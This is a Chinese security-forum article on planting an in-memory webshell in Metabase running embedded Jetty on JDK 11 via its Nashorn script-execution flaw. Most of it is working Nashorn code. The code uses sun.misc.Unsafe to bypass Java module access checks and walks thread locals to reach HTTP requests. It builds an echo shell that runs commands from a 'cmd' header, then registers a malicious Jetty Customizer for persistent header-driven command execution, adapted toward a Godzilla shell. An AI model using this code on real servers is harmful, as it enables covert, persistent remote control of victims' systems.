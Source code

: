

# Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现 - 先知社区

Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现

- - -

# 前言

之前在 Metabase 漏洞中实现了任意 js 脚本的执行，但是这并不优雅 每次都要发送完整的请求包。 
而且 Metabase 的部署方法比较特殊 它打包成了一个独立 jar 来运行。这意味着不能通过简单的写文件的方法来获得较为持久化的 webshell.  
那么如何实现一个内存马呢？

# 回显马构造

目标环境是 java 11.0.19+7 中间件是 Jetty 11.0.14  
sink 点是 nashorn js 引擎 下面例子都是 js nashorn 代码的实现  
因为 js 引擎没有传入 http 请求的上下文 所以只能通过遍历线程的方法来获取上下文。

```bash
var threadGroup = java.lang.Thread.currentThread().getThreadGroup();
var field = ThreadGroup.class.getDeclaredField("threads");
field.setAccessible(true);
```

发现 setAccessible 执行的时候抛出了异常

```bash
Caused by: java.lang.reflect.InaccessibleObjectException: 
Unable to make field java.lang.Thread[] java.lang.ThreadGroup.threads accessible:
module java.base does not "opens java.lang" to module jdk.scripting.nashorn.scripts
```

Java 9 及其以上的版本中 模块化系统 (module system) 被引入。模块化系统增加了对模块的隔离和访问控制，强制要求模块显式地声明对其他模块的公开与开放。  
因为这个新增的安全特性。所以不能像在低版本 java 一样简单的通过反射的方法来访问私有属性。 
但是仍然可以使用 unsafe 来强制访问私有属性绕过这个限制。 
sun.misc.Unsafe 是 JDK 原生提供的一个工具类，包含了危险的方法例如内存分配与回收、CAS 操作、类实例化、内存屏障等。正如其命名一样，由于其可以直接操作内存，执行底层系统调用，其提供的操作也是比较危险的。

```bash
function getunsafe() {
  var unsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  unsafe.setAccessible(true);
  return unsafe.get(null);
}
```

[![](assets/1708095508-4a357a01b6157e8e2ee60ae8f13d5a3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8f6dedcc-3e65-1.png) 这里使用到其中了两个方法

```bash
//基于相对内存地址直接读取属性 不受所有修饰符限制
public Object getObject(Object o, long offset)
//获取非静态属性在它的类的内存分配中的位置 (内存偏移地址)
public long objectFieldOffset(Field f)
```

拿到 unsafe 之后就可以获取之前获取不到的 threads 了

```bash
var unsafe = getunsafe();
var group = java.lang.Thread.currentThread().getThreadGroup();
var f = group.getClass().getDeclaredField("threads");
var threads = unsafe.getObject(group, unsafe.objectFieldOffset(f));
```

通过调试找到 http 上下文 \_request 的位置  
[![](assets/1708095508-a6e1e85f93a1e600f9ae52b31b2b76fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8fbc2046-3e65-1.png)[![](assets/1708095508-10cc2d991eef377cc61ea145205a70f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155402-901e80a6-3e65-1.png)  
((HttpChannelOverHttp)((HttpConnection)((Thread)this).threadLocals.table\[x\].value).\_channel).\_request  
不难发现\_request \_response 可以通过如下方式获取  
((HttpConnection)((Thread)this).threadLocals.table\[x\].value).getHttpChannel().getResponse()  
遍历 threads 找到 threadLocals->table->value 调用其中的 getHttpChannel 方法 就可以拿到我们需要的东西

```bash
for (var i = 0; i < threads.length; i++) {
    try {
        var f = threads[i].getClass().getDeclaredField("threadLocals");
        var threadLocals = unsafe.getObject(threads[i], unsafe.objectFieldOffset(f));
        var table = unsafe.getObject(threadLocals, unsafe.objectFieldOffset(threadLocals.getClass().getDeclaredField("table")));
        for (var j = 0; j < table.length; j++) {
            try {
                var valueField = unsafe.getObject(table[j], unsafe.objectFieldOffset(table[j].getClass().getDeclaredField("value")));
                var w = valueField.getHttpChannel().getResponse().getWriter();
                w.println(exec(valueField.getHttpChannel().getRequest().getHeader("cmd")));
                w.flush();
            } catch(e) {

}
        }
    } catch(e) {

}
}
```

[![](assets/1708095508-e646d96bb6483446c8a28b87b2bceb53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90804e08-3e65-1.png)  
到这里我们实现了一个回显马

# 内存马构造

那么如何实现一个内存马呢？ 
跟踪代码堆栈 发现在分发 http 请求的时候有这么一段代码  
[![](assets/1708095508-723a86d02c8689d38701e814f04ffc2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90e27308-3e65-1.png)

```bash
public boolean handle() {
......
this.dispatch(DispatcherType.REQUEST, () -> {
Iterator var1 = this._configuration.getCustomizers().iterator();
  do {
if (!var1.hasNext()) {
  this.getServer().handle(this);
return;
 }
      HttpConfiguration.Customizer customizer = (HttpConfiguration.Customizer)var1.next();
      customizer.customize(this.getConnector(), this._configuration, this._request);
  } 
    while(!this._request.isHandled());
});
......
```

jetty 有一类叫做 customizer 的 handler 看起来和 tomcat 的 Valve 类似

> HttpConfiguration.Customizer  
> 允许自定义请求对象的接口 对于特定的 HTTP 连接器配置。与过滤器不同，定制器是在提交请求进行处理之前应用，并且可以特定于接收请求的连接器。  
> 通常 customizer 执行以下任务：
> 
> -   处理可能由代理或负载均衡器注入的标头字段。
> -   可能来自连接/连接器的设置属性，例如 SSL 会话 ID
> -   如果请求已被卸载，则允许将请求标记为安全或经过身份验证 并通过 header、cookie 或其他带外机制进行通信
> -   设置由连接器确定的请求属性/字段请求已收到

实现一个 Customizer

```bash
var ProxyCustomizer = Java.extend(org.eclipse.jetty.server.HttpConfiguration.Customizer, {
    customize: function(connector, channelConfig, request) {
        if (request.getHeader("cmd1") != null) {
            request.getResponse().getWriter().println(exec(request.getHeader("cmd1")));
            request.setHandled(true);
        }
    }
});
```

将自定义恶意 Customizer 添加到 Configuration 中

```bash
valueField.getHttpChannel().getHttpConfiguration().addCustomizer(new ProxyCustomizer());
```

[![](assets/1708095508-0a3ac0cff58264ab58f53a52519de39b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155404-91353a5c-3e65-1.png) 现在已经实现了一个简单的 java 内存马  
之后照猫画虎 魔改一下哥斯拉的马 稍微封装一下 这里留给读者自己动手实现 最后用 unsafe 绕过限制 加载 class  
[![](assets/1708095508-5e85b51121dddd4dba6fe9857b4b16a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91968b72-3e65-1.png)

[![](assets/1708095508-34ac38b90ace5f1058fbea3b66b12c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91d495a2-3e65-1.png)  
成功实现哥斯拉内存马  
[![](assets/1708095508-aaa7ce741017ff7f77eae1528b19f811.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-92259d08-3e65-1.png)[![](assets/1708095508-192d902aa096d2daef693fb22abdbc09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-925fc15e-3e65-1.png)[![](assets/1708095508-a20639df255e9198c5efbfeca6bfa6d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-92a665a0-3e65-1.png)
